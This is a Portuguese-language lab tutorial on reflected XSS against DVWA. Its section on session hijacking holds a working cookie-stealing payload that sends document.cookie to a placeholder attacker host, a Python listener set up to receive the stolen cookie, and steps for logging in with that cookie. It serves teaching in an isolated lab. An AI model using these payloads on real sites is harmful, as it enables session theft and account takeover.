









# Cross-Site Scripting (XSS)

Injeção de código HTML/JavaScript malicioso em uma aplicação web vulnerável. É uma falha **client-side**, ou seja, o código malicioso executa no navegador de quem visita a página, existe 3 métodos de XSS, refletido, Armazenado e DOM-based.
## Nessa documentação deixarei um tutorial de como é feito os ataques, utilizarei o metasploitable para testar essa vuln.
>Apenas para fins didáticos!
# Menu de navegação
- [Tutorial do XSS refletido](#tutorial-do-xss-refletido)
- [Onde as falhas ocorrem](#onde-as-falhas-ocorrem)
- [Riscos de um XSS](#riscos-de-um-xss)

---

## Onde as falhas ocorrem

A causa raiz é sempre a mesma: **falta de sanitização dos dados**, quando a aplicação pega algo digitado pelo usuário (campo de busca, comentário, URL) e exibe de volta na página sem filtrar ou escapar caracteres especiais como `<` , `>` , `/` etc...

Referência: [owasp.org](https://owasp.org), tem uma tabela de classificação de risco (severidade) pra esse e outros tipos de vulnerabilidade.

## Riscos de um XSS
- Roubo de sessão (sequestrar o cookie de login de outro usuário)
- Captura de teclas digitadas (keylogging)
- Redirecionamento para sites falsos (phishing)
- Desfiguração da página (defacement)

---

## Refletido

O ataque não fica salvo em lugar nenhum, ele só "reflete" de volta na resposta da página, então você precisa convencer a vítima a clicar em um link malicioso específico (ex: um parâmetro de busca manipulado na URL).

### Testando (ambiente de laboratório : DVWA)

---

## Tutorial do XSS refletido

**Nível Low**, sem nenhuma proteção, o código é escrito direto na página:
Primeiro iremos ver o comportamento do site digitando no input
```html
my name is syler
```


escrevemos normalmente



na pagina principal retornou a mensagem ```hello e texto digitado```

Agora vamos pro teste de XSS, vamos ver se o site aceita caracteres especiais `<`, `/`



não retornou os caracteres, porém ao visualizar o código fonte da página podemos ver que houve uma injeção de código no arquivo



Se rodarmos um código malicioso em JavaScript podemos disparar alguma requisição. vamos disparar um alert 
```<script>alert('Xss refletido passou')</script>```



podemos ver que funcionou!

agora vamos fazer um roubo de sessão
# Qual é o perigo de um roubo de sessão?
iremos usar a mesma sessão de um client, agora imagina em um cenário onde a sessão é de um admin, teríamos acesso a uma área restrita

primeiro iremos criar um server pra receber o cookie de sessão

```sudo python3 -m http.server 80```


agora rodamos o código no input e submetemos
```<script>new Image().src='http://SEU-IP/?='+document.cookie</script>```



Agora que temos a sessão é só logar

# Como logar com a sessão roubada?
Entre na tela de login pelo navegador (como nesse teste estamos roubando uma sessão nossa, precisamos entrar em outro navegador que não tenha o cookie de sessão atual)


Colocamos a chave de sessão roubada e removemos o `login.html` da url, dessa forma cairemos direto na tela administrativa




> ⚠️ Isso só deve ser testado em ambientes próprios e isolados (DVWA, labs locais). Fazer isso contra sites reais sem autorização é crime.
